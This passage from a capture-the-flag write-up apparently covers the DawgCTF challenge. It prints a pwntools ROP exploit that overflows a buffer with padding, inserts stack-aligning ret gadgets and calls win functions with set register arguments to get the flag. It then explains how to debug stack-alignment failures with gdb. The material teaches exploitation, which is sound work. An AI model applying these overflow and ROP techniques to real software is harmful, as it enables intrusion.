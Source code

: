 ```python
rop = ROP(elf)
rop.raw(b"A" * 0x98)
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("win1")
rop.rdi = 0xdeadbeef
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("win2")
rop.rdi = 0xdeadbeef
rop.rsi = 0xdeafface
rop.rdx = 0xfeedcafe
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("win3")
rop.call("exit")
p.sendline(rop.chain())

p.readuntil(b"claim your advance.")
flag = p.readline()[:-1]

p.sendlineafter(b"Continue:", b"A")
p.readuntil(b"I believe in you\n")
flag += p.readline()[:-1]

p.sendlineafter(b"Final Test:", b"A")
p.readuntil(b"reward\n\n")
flag += p.readline()[:-1]

print(flag.decode()) # DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}
```

### Identifying and Addressing Stack Alignment Issues

I saw a lot of people struggling with this on Discord so hopefully this is helpful for some of those people.

Firstly note that the alignment of the stack can vary when the remote is using a different libc.so or ld.so and I suspect that's where most people's issue start i.e. locally the stack has a different alignment than remotely.

For example I can reproduce a stack alignment issue locally by commenting out the 3rd stack aligning ret as follows:

```python
rop.rdx = 0xfeedcafe
#rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("win3")
rop.call("exit")
p.sendline(rop.chain())
```

Don't forget to change the script to launch with gdb too:

```python
#p = elf.process()
p = elf.debug(gdbscript="")
#p = remote("connect.umbccd.net", 22237)
```
